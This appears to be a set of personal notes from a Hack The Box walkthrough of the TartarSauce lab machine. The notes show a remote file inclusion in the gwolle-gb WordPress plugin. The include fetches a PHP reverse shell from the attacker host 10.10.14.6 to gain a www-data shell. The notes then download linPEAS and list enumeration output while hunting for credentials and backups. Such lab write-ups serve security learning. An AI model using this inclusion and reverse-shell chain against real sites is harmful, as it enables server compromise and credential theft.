 10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/php-reverse-shell.php


10.10.10.88 - - [15/Jan/2021 16:03:05] "GET /php-reverse-shell.phpwp-load.php HTTP/1.0" 404 

mv php-reverse-shell.php wp-load.php

10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6

![](2021-01-15-16-04-47.png)


www-data@TartarSauce:/$ cd /home
www-data@TartarSauce:/home$ find .
.
./onuma
find: './onuma': Permission denied
www-data@TartarSauce:/home$ cd onuma/
bash: cd: onuma/: Permission denied
www-data@TartarSauce:/home$ ls


looking for credentials in config file of the server, linPEAS will also do that


wget 10.10.14.6/linpeas.sh


[+] Modified interesting files in the last 5mins (limit 100)
/var/log/kern.log
/var/log/syslog
/var/log/auth.log
/var/backups/onuma_backup_test.txt
/var/backups/onuma-www-dev.bak


[+] Readable *_history, .sudo_as_admin_successful, profile, bashrc, httpd.conf, .plan, .htpasswd, .gitconfig, .git-credentials, .git, .svn, .rhosts, hosts.equiv
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#read-sensitive-data
-rw-r--r-- 1 root root 2188 Aug 31  2015 /etc/bash.bashrc
-rw-r--r-- 1 root root 3771 Aug 31  2015 /etc/skel/.bashrc
-rw-r--r-- 1 root root 655 May 16  2017 /etc/skel/.profile


www-data@TartarSauce:/dev/shm$ file /var/backups/onuma-www-dev.bak
/var/backups/onuma-www-dev.bak: gzip compressed data, last modified: Fri Jan 15 15:10:02 2021, from Unix

